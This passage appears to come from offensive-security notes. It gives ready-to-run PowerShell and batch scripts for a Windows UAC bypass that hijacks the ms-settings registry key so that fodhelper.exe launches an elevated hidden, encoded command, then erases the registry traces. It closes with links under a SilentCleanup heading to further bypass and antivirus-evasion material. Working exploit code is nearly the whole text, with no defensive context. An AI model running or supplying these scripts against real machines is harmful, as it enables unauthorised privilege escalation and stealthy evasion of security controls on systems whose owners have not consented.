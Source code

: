{% tabs %}
{% tab title="PS" %}
{% code title="fod-ng.ps1" %}
```powershell
function FodNG {
    Param (
        [String]$cmd = "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_CMD>"
    )
    
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue

    New-Item "HKCU:\Software\Classes\.uacbypass\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\.uacbypass\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.uacbypass\Shell\Open\command" -Name "(default)" -Value $cmd -Force
    
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".uacbypass" -Force
    
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep 3
    
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.uacbypass\" -Recurse -Force
}
```
{% endcode %}
{% endtab %}
{% tab title="CMD" %}
{% code title="fod-ng.bat" %}
```bat
reg add HKCU\Software\Classes\.uacbypass\Shell\Open\command /f
reg add HKCU\Software\Classes\.uacbypass\Shell\Open\command /v DelegateExecute /f
reg add HKCU\Software\Classes\.uacbypass\Shell\Open\command /ve /d C:\Windows\System32\cmd.exe /f
reg add HKCU\Software\Classes\ms-settings\CurVer /f
reg add HKCU\Software\Classes\ms-settings\CurVer /ve /d .uacbypass /f
C:\Windows\System32\fodhelper.exe
reg delete HKCU\Software\Classes\ms-settings /f
reg delete HKCU\Software\Classes\.uacbypass /f
```
{% endcode %}
{% endtab %}
{% endtabs %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)
